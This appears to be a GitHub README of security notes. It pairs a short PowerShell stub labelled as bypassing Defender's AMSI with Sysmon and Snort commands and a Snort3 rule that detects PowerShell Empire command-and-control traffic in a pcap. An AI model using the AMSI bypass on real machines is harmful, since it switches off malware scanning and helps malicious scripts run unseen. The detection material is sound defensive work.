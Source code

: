for education purpose only!

#Bypass Defender AV AMSI.dll

Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
[BP.AMS]::Disable()


#detect powershell process using sysmon and wazuh

Sysmon64.exe -accepteula -i sysconfig.xml

#detect powershell empire using snort :

analyze pcap with snort
snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg -k none -q # check packets processing by snort.

![image](https://user-images.githubusercontent.com/92370823/148438040-ae3a9a3f-17fe-4987-83e4-d44f7ae87e39.png)

#our snort3 rule that detect powerhellempire cnc malware
alert http (
        msg:"PowerShellEmpire was detected";
        flow:to_server,established;
        http_uri:path;
        content:"/login/process.php",nocase;
        http_header;
        content:"Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko",nocase;
        http_cookie;
        content:"session",nocase;
        reference:url,attack.mitre.org/techniques/T1086;
        reference:url,powershellempire.com;
        classtype:trojan-activity;
        sid:56465; rev:5;
)

#snort 3 Buffers
#http_inspect::http_client_body
#http_inspect::http_cookie
#http_inspect::http_header
#http_inspect::http_method
#http_inspect::http_param
#http_inspect::http_raw_body
#http_inspect::http_raw_cookie
#http_inspect::http_raw_header
#http_inspect::http_raw_request
#http_inspect::http_raw_status
#http_inspect::http_raw_trailer
#http_inspect::http_raw_uri
#http_inspect::http_stat_code
#http_inspect::http_stat_msg
#http_inspect::http_trailer
#http_inspect::http_true_ip
#http_inspect::http_uri
#http_inspect::http_version
#http_inspect::js_data
#http_inspect::vba_data

snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg 
![image](https://user-images.githubusercontent.com/92370823/148611213-23ffb093-cd89-447e-ae07-c61640ae1a48.png)


